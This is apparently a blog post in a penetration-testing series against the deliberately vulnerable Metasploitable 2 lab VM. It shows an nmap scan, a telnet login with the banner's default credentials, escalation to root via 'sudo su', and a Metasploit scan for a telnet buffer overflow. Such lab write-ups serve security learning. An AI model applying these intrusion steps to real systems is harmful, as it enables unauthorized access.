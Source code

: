 <!--hacking, metasploit, telnet-->
# Back to basics

This is the fourth part of my series about hacking a Metasploitable 2 VM. You can find the previous posts here:

* [Part one](http://filimon-danopoulos.github.io/posts/2014-11-12_Metasploitable-2-part-one/)
* [Part two](http://filimon-danopoulos.github.io/posts/2014-11-15_Metasploitable-2-part-two/)
* [Part three](http://filimon-danopoulos.github.io/posts/2014-11-17_Metasploitable-2-part-three/)

In this post I will continue down the list of services that the `nmap` scan I did in part one generated:

    PORT      STATE SERVICE     VERSION
    21/tcp    open  ftp         vsftpd 2.3.4
    22/tcp    open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
    23/tcp    open  telnet      Linux telnetd
    25/tcp    open  smtp        Postfix smtpd
    53/tcp    open  domain      ISC BIND 9.4.2
    80/tcp    open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
    111/tcp   open  rpcbind     2 (RPC #100000)
    139/tcp   open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
    445/tcp   open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
    512/tcp   open  exec        netkit-rsh rexecd
    513/tcp   open  login?
    514/tcp   open  shell?
    1099/tcp  open  rmiregistry GNU Classpath grmiregistry
    1524/tcp  open  shell       Metasploitable root shell
    2049/tcp  open  nfs         2-4 (RPC #100003)
    2121/tcp  open  ftp         ProFTPD 1.3.1
    3306/tcp  open  mysql       MySQL 5.0.51a-3ubuntu5
    3632/tcp  open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
    5432/tcp  open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
    5900/tcp  open  vnc         VNC (protocol 3.3)
    6000/tcp  open  X11         (access denied)
    6667/tcp  open  irc         Unreal ircd
    6697/tcp  open  irc         Unreal ircd
    8009/tcp  open  ajp13       Apache Jserv (Protocol v1.3)
    8180/tcp  open  http        Apache Tomcat/Coyote JSP engine 1.1
    8787/tcp  open  drb         Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb)
    35308/tcp open  status      1 (RPC #100024)
    47882/tcp open  nlockmgr    1-4 (RPC #100021)
    50137/tcp open  unknown
    54408/tcp open  mountd      1-3 (RPC #100005)
    
The FTP and SSH services running on port 21 and 22 respectively have both been compromised. 
So this time I will focus on telnet running on port 23.

## The target

Telnet, telnet, where to begin... Generally, telnet is a good indicator that something is misconfigured. There are modern
alternatives that almost always are a better fit, SSH for example.
The easiest thing to do as far as telnet is concerned is just connect to it with the `telnet` command:

    # telnet 192.168.56.103
    Trying 192.168.56.103...
    Connected to 192.168.56.103.
    Escape character is '^]'.
                    _                  _       _ _        _     _      ____  
     _ __ ___   ___| |_ __ _ ___ _ __ | | ___ (_) |_ __ _| |__ | | ___|___ \ 
    | '_ ` _ \ / _ \ __/ _` / __| '_ \| |/ _ \| | __/ _` | '_ \| |/ _ \ __) |
    | | | | | |  __/ || (_| \__ \ |_) | | (_) | | || (_| | |_) | |  __// __/ 
    |_| |_| |_|\___|\__\__,_|___/ .__/|_|\___/|_|\__\__,_|_.__/|_|\___|_____|
                                |_|                                          


    Warning: Never expose this VM to an untrusted network!

    Contact: msfdev[at]metasploit.com

    Login with msfadmin/msfadmin to get started


    metasploitable login:
    
OK. That was easy, it actually straight out tells me a username password combo to try... Let's see what happens if I use the
supplied credentials.

    metasploitable login: msfadmin
    Password: 
    Last login: Sun Nov  9 05:31:34 EST 2014 on pts/1
    Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

    The programs included with the Ubuntu system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
    applicable law.

    To access official Ubuntu documentation, please visit:
    http://help.ubuntu.com/
    No mail.
    msfadmin@metasploitable:~$
    
So that was easy, might this user have `sudo` rights?
    
    msfadmin@metasploitable:~$ sudo su
    [sudo] password for msfadmin: 
    root@metasploitable:/home/msfadmin# whoami
    root

Well there you go, I have root.

## Alternatives

Since this makes for a pretty boring post if I don't do anything more than this let's see if there is something in Metasploit, 
so I fire up `msfconsole`: 

    msf > search telnetd

    Matching Modules
    ================

     Name                                               Rank       Description
     ----                                               ----       -----------
     auxiliary/admin/http/dlink_dir_300_600_exec_noauth normal     D-Link DIR-600 / DIR-300 Unauthenticated 
                                                                   Remote Command Execution
     auxiliary/scanner/telnet/telnet_encrypt_overflow   normal     Telnet Service Encyption Key ID Overflow 
                                                                   Detection
     exploit/linux/http/dlink_diagnostic_exec_noauth    excellent  D-Link DIR-645 / DIR-815 diagnostic.php 
                                                                   Command Execution
     exploit/linux/telnet/telnet_encrypt_keyid          great      Linux BSD-derived Telnet Service 
                                                                   Encryption Key ID Buffer Overflow
     exploit/solaris/telnet/fuser                       excellent  Sun Solaris Telnet Remote Authentication 
                                                                   Bypass Vulnerability
     exploit/solaris/telnet/ttyprompt                   excellent  Solaris in.telnetd TTYPROMPT Buffer Overflow

There seems to exist some kind of encryption overflow `exploit/linux/telnet/telnet_encrypt_keyid` (output shortened): 
    
    msf>  info  exploit/linux/telnet/telnet_encrypt_keyid 

    Name: Linux BSD-derived Telnet Service Encryption Key ID Buffer Overflow
    Module: exploit/linux/telnet/telnet_encrypt_keyid
    Platform: Linux
    Privileged: Yes
    License: Metasploit Framework License (BSD)
    Rank: Great
    Disclosed: 2011-12-23

    Available targets:
      Id  Name
      --  ----
      0   Automatic
      1   Red Hat Enterprise Linux 3 (krb5-telnet)

    Payload information:
      Space: 200
      Avoid: 1 characters

    Description:
      This module exploits a buffer overflow in the encryption option 
      handler of the Linux BSD-derived telnet service (inetutils or 
      krb5-telnet). Most Linux distributions use NetKit-derived telnet 
      daemons, so this flaw only applies to a small subset of Linux 
      systems running telnetd.

    References:
      http://cvedetails.com/cve/2011-4862/
      http://www.osvdb.org/78020
      http://www.securityfocus.com/bid/51182
      http://www.exploit-db.com/exploits/18280
      
This does not sound very promising but let's run the scanner `auxiliary/scanner/telnet/telnet_encrypt_overflow`:

    msf > use auxiliary/scanner/telnet/telnet_encrypt_overflow
    msf auxiliary(telnet_encrypt_overflow) > show options

    Module options (auxiliary/scanner/telnet/telnet_encrypt_overflow):

       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       PASSWORD                   no        The password for the specified username
       RHOSTS                     yes       The target address range or CIDR identifier
       RPORT     23               yes       The target port
       THREADS   1                yes       The number of concurrent threads
       TIMEOUT   30               yes       Timeout for the Telnet probe
       USERNAME                   no        The username to authenticate as

    msf auxiliary(telnet_encrypt_overflow) > set RHOSTS 192.168.56.103
    RHOSTS => 192.168.56.103
    msf auxiliary(telnet_encrypt_overflow) > run

    [*] 192.168.56.103:23 Does not support encryption: *snipp*
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

The target is not vulnerable this attack. It doesn't really matter at this point, but it's good to know that this issue exists,
for future reference.

## The point

OK, in order for this post to have even the slightest amount of substance let's see what we can take away from this. 
If we have a service that is known to be configured improperly just try to connect to it and see that happens. In this case the target 
more or less hacked it self. Next time I will try to do some thing more interesting than this.
